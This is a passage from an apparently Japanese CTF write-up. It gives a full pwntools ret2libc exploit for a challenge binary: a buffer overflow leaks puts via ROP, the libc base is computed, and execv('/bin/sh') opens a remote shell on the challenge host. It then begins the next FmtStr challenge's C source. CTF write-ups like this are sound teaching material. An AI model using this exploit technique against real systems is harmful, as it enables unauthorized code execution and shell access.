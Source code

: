 <br />

### Solution
これはもう、今まで何度かやってきたのと同じです。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

elf = ELF('./ret2libc')
context.binary = elf

s = remote('143.198.127.103', 42001)

rop = ROP(elf)
rop.puts(elf.got.puts)
rop.main()
print(rop.dump())
s.sendlineafter(b"ret2libc?[y/N]\n", b'A'*40 + rop.chain())
s.recvuntil(b'natural!\n\n')
# puts = u64(s.recv(6) + b'\x00\x00')
puts = u64(s.recvline().rstrip().ljust(8, b"\x00"))
print('puts: %x' % puts)
libc = ELF('./libc-2.31.so', checksec=False)
libc.address = puts - libc.symbols.puts

rop = ROP(libc)
rop.execv(next(libc.search(b'/bin/sh')), 0)
print(rop.dump())
s.sendlineafter(b"ret2libc?[y/N]\n", b'A'*40 + rop.chain())
s.recvuntil(b'natural!\n\n')
s.interactive()	
```

<br />

Flag: `flag{th3_wh0l3_us3l3r4nd_1s_my_pl4ygr0und}`



<br /><br />
<br /><br />
## [Pwn]: FmtStr
- - -
<img src="https://captureamerica.github.io/writeups/img/pbjar_CTF_2021_pwn3.png" alt="pbjar_CTF_2021_pwn3.png">

ソースコードも添付されています。

```C
#include <stdio.h>
#include <stdlib.h>

void divide(){
        puts("---------------------------------------------------------------------------------------\n");
}

void asciiart(){
	puts("/$$$$$$$$              /$$      /$$$$$$   /$$              ");
	puts("| $$_____/             | $$     /$$__  $$ | $$              ");
	puts("| $$    /$$$$$$/$$$$  /$$$$$$  | $$  \\__//$$$$$$    /$$$$$$ ");
	puts("| $$$$$| $$_  $$_  $$|_  $$_/  |  $$$$$$|_  $$_/   /$$__  $$");
```